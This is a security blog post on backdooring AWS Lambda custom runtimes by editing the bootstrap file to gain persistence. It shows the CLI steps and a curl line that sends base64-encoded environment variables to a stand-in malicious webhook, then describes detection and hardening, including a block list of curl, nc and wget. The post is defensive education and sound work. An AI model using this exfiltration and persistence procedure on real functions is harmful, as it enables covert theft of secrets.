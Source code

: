 ```yaml
---
title: Unmasking Lambda's Hidden Threat - When Your Bootstrap Becomes a Backdoor
date: 2025-07-11
authors:
  - guillermofernandezcano
  - sergiojimenez
categories:
  - Lambda
  - Persistence
tags:
  - backdoor
  - persistence
  - lambda 
  - bootstrap
  - runtime
  - webhook
---
```


-----


So, you've jumped on the serverless bandwagon, huh? All that auto-scaling, no servers to patch, just pure code magic. It feels invincible, right? Well, sorry to burst your bubble, but even in the land of ephemeral functions, bad actors are finding ways to stick around longer than an awkward family dinner. Today, we're pulling back the curtain on one of those particularly sneaky tricks: achieving persistence in AWS Lambda by messing with its very heart – the custom runtime `bootstrap` file.
<!-- more -->
### Why the Bootstrap? Understanding the Context

AWS Lambda allows developers to use custom runtimes. This is made possible by the **Lambda Runtime API** and a key executable: the `bootstrap` file. When a Lambda function with a custom runtime is invoked, AWS calls this `bootstrap` file. Its purpose is to initialize the runtime environment, load the function's code and manage the lifecycle of invocations, directly interacting with the Runtime API to send and receive events.

Herein lies the opportunity for an attacker: if a function with a custom runtime is compromised and sufficient permissions are obtained, modifying this `bootstrap` allows malicious code to be injected. This code will execute *before* the legitimate function code on every invocation, ensuring stealthy persistence, even if the main function's code is subsequently updated.

### The Attack in Detail: Simulating Persistence

Simulating this attack requires initial access to the compromised Lambda function and permissions to modify its code.

**Prerequisites:**

* An existing Lambda function with a **custom runtime**.
* IAM permissions for `lambda:UpdateFunctionCode`.
* Ability to write to `/tmp` or `/var/task` (though direct `bootstrap` modification is more direct).
* A webhook for exfiltration (e.g., `webhook.site`).

**Simulation Steps:**

1.  **Download the current function:**
    The first step is to get the function's code. This can be done using `aws lambda get-function --function-name your-function-name --query 'Code.Location'` to get the ZIP package URL, then downloading it.

    ```bash
    aws lambda get-function --function-name my-affected-function --query 'Code.Location' --output text > code_location.txt
    wget -O function.zip $(cat code_location.txt)
    unzip function.zip -d extracted_function
    ```

2.  **Edit the `bootstrap`:**
    Inside the `extracted_function` directory, locate the `bootstrap` file. Add a malicious line to the beginning of this file. For example, to exfiltrate environment variables to your webhook:

    ```bash
    # Add this line to the beginning of the 'extracted_function/bootstrap' file
    curl -X POST -H "Content-Type: application/json" -d "$(env | base64)" [https://your-malicious-webhook.site/path](https://your-malicious-webhook.site/path) &
    ```
    The `&` at the end is crucial for the command to execute in the background and not block the runtime's startup, allowing the legitimate function to run without obvious interruptions for the user or application.

3.  **Upload the changes:**
    Repackage the function and upload it to AWS.

    ```bash
    zip -r new_function.zip extracted_function/
    aws lambda update-function-code --function-name my-affected-function --zip-file fileb://new_function.zip
    ```

Once the function is invoked, the malicious `bootstrap` will execute, sending the desired information to your webhook, all while the original function proceeds normally.

### Implications and Comparison with Other Techniques

This technique is particularly stealthy because the `bootstrap` is a fundamental file for the runtime, and its modification can go unnoticed if not explicitly audited. Unlike simply modifying the function code (which could be overwritten by a legitimate deployment), the `bootstrap` change persists through updates to the main function's code, as the `bootstrap` is part of the runtime environment, not the application code.

Other Lambda persistence techniques include:
* **Backdooring existing runtimes (e.g., Python/Node.js):** Modifying standard libraries or modules so that malicious code executes when the function imports them.
* **"Runtime Swapping":** Changing an existing function's runtime to a custom one controlled by the attacker.
* **Malicious Layers:** If an attacker can create or modify a Lambda Layer used by a target function, they can inject compromised code or dependencies.

The `bootstrap` attack stands out for its subtlety and ability to survive legitimate code deployments, making it an advanced and dangerous technique.

### Fortifying Your Defenses: Prevention and Detection

Detecting and preventing these types of attacks requires a multifaceted and proactive approach to serverless security.

1.  **Continuous Detection and Monitoring (Runtime and Behavior):**
    * **Amazon CloudTrail:** Monitor and alert on critical events such as `UpdateFunctionCode`, `CreateFunction`, `CreateFunctionUrlConfig`, and `UpdateFunctionConfiguration`. Set up Amazon EventBridge alarms for immediate notifications of any unexpected function modifications.
    * **Amazon GuardDuty & AWS Security Hub:** Enable these services. GuardDuty can detect anomalous behavior, such as unusual outbound connections to suspicious domains from a Lambda function that normally shouldn't communicate externally. Security Hub consolidates findings and offers centralized visibility.
    * **Runtime Security:** Implement third-party solutions like Sysdig, Upwind, Palo Alto Networks Prisma Cloud, Aqua Security, or Lacework. These tools can detect command injections, runtime file modifications (`bootstrap`), or anomalous processes within the Lambda environment.

2.  **`bootstrap` Content Review:**
    * **Manual and Automated Auditing:** For functions with custom runtimes, the `bootstrap` file must be rigorously audited. Integrate validations in your CI/CD pipelines that block deployments with suspicious commands (e.g., `curl`, `nc`, `wget`) or unauthorized changes in the `bootstrap`.
    * **Hash Monitoring:** Use `aws lambda get-function --query 'Configuration.CodeSha256'` to get the ZIP code hash. Store and monitor these hashes to detect any unexpected changes in the function's deployment package.

3.  **Supply Chain Security:**
    * **Code Signing:** AWS Lambda supports code signing. Enable this feature to ensure that only code packages signed by trusted entities can be deployed to your functions. This would thwart any attempt to deploy a modified `bootstrap` without the proper signature.
    * **Container Image Scanning:** If you use container images as a runtime for Lambda, integrate Amazon Inspector or third-party tools into your pipeline to continuously scan images for vulnerabilities and malicious content, including `bootstrap` modifications.

4.  **Least Privilege and Isolation Principles:**
    * **IAM Least Privilege:** Ensure that Lambda deployment IAM roles (`lambda:UpdateFunctionCode`) and execution roles (`lambda:InvokeFunction`) have only the strictly necessary permissions. Avoid granting excessive permissions that could be exploited.
    * **Network Restrictions (VPC):** Place critical Lambda functions within an Amazon VPC. If a function does not require internet access, avoid configuring a NAT Gateway. This drastically restricts an attacker's ability to exfiltrate data to external webhooks.

---

The world of serverless security is always evolving, and as defenders, so must we. Understanding how seemingly benign components like the `bootstrap` can be weaponized is key to staying ahead. Keep your eyes peeled, your CloudTrails flowing, and your security tools sharp. The cloud might feel like magic, but even magic has its dark corners – it's up to us to shine a light on them.
